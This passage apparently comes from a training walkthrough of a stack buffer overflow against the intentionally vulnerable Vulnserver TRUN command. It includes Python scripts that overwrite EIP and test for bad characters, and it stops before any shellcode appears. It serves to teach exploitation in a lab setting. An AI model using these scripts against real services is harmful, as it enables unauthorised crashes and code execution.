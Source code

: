 ```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat overwrite_eip.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*2003
# to overwrite EIP
payload+=b"B"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 overwrite_eip.py         
```

By running this our application gets crashed

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/overwrite-eip-reg.png">
</div>

We can see that, our EIP has a data of ```0x42424242``` which is the hex value of ```BBBB``` from our script

So, we can control the EIP now

## Finding Bad Characters

After controlling EIP, it is mandatory to check for bad characters

Because bad characters may damage your shellcode execution which may result in ```exploitation failure```

To find bad characters manually using debugger, run this python script

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat bad_chars.py                
import socket, sys
from time import sleep
# collection of all bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# to overwrite buffer and EBP
payload=b"A"*2003
# to overwrite EIP
payload+=b"B"*4
# to load badchars in ESP
payload+=badchars
```